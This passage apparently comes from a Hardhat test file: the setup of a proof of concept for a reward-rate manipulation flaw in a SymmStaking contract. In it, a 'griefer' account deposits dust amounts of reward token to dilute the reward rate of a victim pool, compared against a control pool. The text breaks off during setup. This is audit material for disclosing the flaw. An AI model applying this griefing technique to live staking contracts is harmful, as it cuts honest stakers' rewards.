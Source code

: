 ```solidity 
 * recalculates rate regardless of contribution size.
 */
describe("Reward Rate Manipulation - Minimal PoC", function () {
	let context: RunContext
	let victimPool: SymmStaking
	let controlPool: SymmStaking
	let stakingToken: Symmio
	let normalUser: SignerWithAddress
	let griefer: SignerWithAddress
	let controlUser: SignerWithAddress
	let admin: SignerWithAddress
	let rewardToken: ERC20

	beforeEach(async function () {
		// Initialize test environment
		context = await loadFixture(initializeFixture)
		victimPool = context.symmStaking
		admin = context.signers.admin
		normalUser = context.signers.user1
		griefer = context.signers.user2
		controlUser = context.signers.user3
		stakingToken = context.symmioToken

		// Setup staking token balances
		const initialBalance = e("100")
		await stakingToken.connect(admin).mint(normalUser.address, initialBalance)
		await stakingToken.connect(admin).mint(griefer.address, initialBalance)
		await stakingToken.connect(admin).mint(controlUser.address, initialBalance)
		await stakingToken.connect(admin).mint(admin.address, initialBalance)

		// Deploy reward token with 18 decimals
		const ERC20Factory = await ethers.getContractFactory("MockERC20")
		rewardToken = await ERC20Factory.connect(admin).deploy("DAI", "DAI")

		// Deploy control pool for comparison
		const StakingFactory = await ethers.getContractFactory("SymmStaking")
		controlPool = await StakingFactory.deploy()
		await controlPool.initialize(admin.address, await stakingToken.getAddress())
		await controlPool.grantRole(await controlPool.REWARD_MANAGER_ROLE(), admin.address)
	})

	it("demonstrates rate manipulation vulnerability with minimal contributions", async function () {
		// ------- SETUP PHASE -------

		// Configure both pools identically
		await victimPool.connect(admin).configureRewardToken(await rewardToken.getAddress(), true)
		await controlPool.connect(admin).configureRewardToken(await rewardToken.getAddress(), true)

		// Constants for demonstration
		const INITIAL_REWARD = e("7000") // 7000 DAI as initial rewards
		const DUST_AMOUNT = e("0.000000001") // One billionth of a DAI
		const STAKE_AMOUNT = e("100") // User stake amount

		// Give griefer a tiny amount and setup approvals
		await rewardToken.connect(admin).transfer(griefer.address, e("0.0001"))
		await rewardToken.connect(admin).approve(await victimPool.getAddress(), INITIAL_REWARD)
		await rewardToken.connect(admin).approve(await controlPool.getAddress(), INITIAL_REWARD)
		await rewardToken.connect(griefer).approve(await victimPool.getAddress(), e("0.0001"))

		// Users stake tokens in their respective pools
		await stakingToken.connect(normalUser).approve(await victimPool.getAddress(), STAKE_AMOUNT)
```
